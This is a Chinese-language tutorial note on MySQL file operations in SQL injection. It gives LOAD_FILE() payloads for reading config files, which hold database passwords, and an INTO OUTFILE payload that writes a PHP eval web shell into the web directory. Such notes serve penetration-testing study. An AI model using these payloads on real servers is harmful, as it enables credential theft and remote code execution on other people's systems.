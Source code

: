 

<br>
## 文件操作写入与读取

### 使用前提
 - secure_file_priv权限
   - 用来限制数据导入和导出操作的全局系统变量
   - 参数为空，这个变量没有效果；
   - 参数设为一个目录名，MySQL服务只允许在这个目录中执行文件的导入和导出操作。这个目录必须存在，MySQL服务不会创建它；
   - 参数为NULL，MySQL服务会禁止导入和导出操作。
   - MYSQL的5.5.53之前的版本是默认为空,之后的版本为NULL
   - 运行该命令可以查看`show global variables like '%secure%';`。
 - 知道可写的WEB路径
 - 对WEB目录有读写权限


### 利用LOAD_FILE()读取文件
一般用它来看config.php（即mysql的密码）,apache配置、servu密码等。前提是要知道物理路径。
 - 可以在UNION中作为一个字段来用。
 `UNION SELECT 1,LOAD_FILE('c:/boot.ini'),3,4`
 - 可以在where字句中使用。
 `AND LENGTH(LOAD_FILE(0x633A2F626F6F742E696E69))>1`
 - 看exe等含有二进制的00等截断或者回车换行等特殊符号时，可以结合hex函数。


#### 注意点
 - 路径可以是单引号、0x、char转换的字符。路径中的斜杠是`/`而不是`\`。
 - 默认目录@@datadir
 - 文件有可读权限,读文件最大的为1047552个byte, @@max_allowed_packet可以查看文件读取最大值


### 利用INTO OUTFILE/INTO DUMPFILE写入文件
在一些前提下，可以利用它在服务器写入一句话或者二进制文件。
 - 一句话（经典）
 `SELECT '<?php eval($_POST[cmd])?>' INTO OUTFILE 'D:/shell.php'`
 `SELECT * FROM users INTO OUTFILE 'D:/shell.php'`
  - OUTFILE 和 DUMPFILE 区别和特点
 INTO OUTFILE函数写文件时会在每一行的结束自动加上换行符
 INTO DUMPFILE函数在写文件会保持文件得到原生内容，这种方式对于二进制文件是最好的选择
 当我们在UDF提权的场景是需要上传二进制文件等等用OUTFILE函数是不能成功的


#### 注意点
 - 只能是单引号路径,不能接0x开头或者char转换以后的路径。
 这个问题在php注入中更加麻烦，因为会自动将单引号转义成\',那么基本没的玩了。
 唯一的一种可能就是你使用mysql远程连接，然后直接在mysql中执行命令，就没有查询限制了。当然，你要是找到了phpmyadmin，也可以。
 - INTO OUTFILE/INTO DUMPFILE 不会覆盖文件。(文件已存在会报错)





<br>
